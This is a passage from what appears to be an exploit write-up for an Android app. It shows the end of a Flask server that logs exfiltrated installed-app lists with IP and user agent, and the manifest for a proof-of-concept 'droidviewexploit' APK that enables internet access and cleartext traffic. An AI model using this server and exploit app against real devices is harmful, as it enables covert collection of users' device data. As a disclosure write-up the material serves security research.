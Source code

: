 ```python
    # verify apps
    if data.get("apps"):
        print("INSTALLED APPLICATIONS:", len(data["apps"]))

    entry = {
        "ts": datetime.utcnow().isoformat()+"Z",
        "remote_addr": request.headers.get("X-Forwarded-For", request.remote_addr),
        "ua": request.headers.get("User-Agent"),
        "data": data
    }
    print("[+] hit:", json.dumps(entry, ensure_ascii=False))
    with open(LOG, "a", encoding="utf-8") as f:
        f.write(json.dumps(entry, ensure_ascii=False) + "\n")
    return jsonify({"ok": True})

# serve the server in port 8080
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080, debug=True)
```
### PoC - APK
Finally, the code that will trigger all of above.

Since we need **get the package name** for all *apps installed*, and then, **send to our flask server**, we need add into our `AndroidManifest.xml` file the *internet permission*.
```XML
<uses-permission android:name="android.permission.INTERNET" />
```
And, very important, the `android:usesCleartextTraffic="true"` in the `<application` attributes.

Full `AndroidManifest.xml` file:
```XML
<?xml version="1.0" encoding="utf-8"?>  
<manifest xmlns:android="http://schemas.android.com/apk/res/android"  
xmlns:tools="http://schemas.android.com/tools"  
package="com.lautarovculic.droidviewexploit">  
  
    <uses-permission android:name="android.permission.INTERNET" />  
  
    <application  
        android:allowBackup="true"  
        android:label="@string/app_name"  
        android:icon="@mipmap/ic_launcher"  
        android:roundIcon="@mipmap/ic_launcher_round"  
        android:supportsRtl="true"  
        android:usesCleartextTraffic="true"  
        android:theme="@style/Theme.DroidViewExploit">  
        <activity android:name=".MainActivity" android:exported="true">  
            <intent-filter>  
                <action android:name="android.intent.action.MAIN"/>  
                <category android:name="android.intent.category.LAUNCHER"/>  
            </intent-filter>  
        </activity>  
    </application>  
</manifest>
```
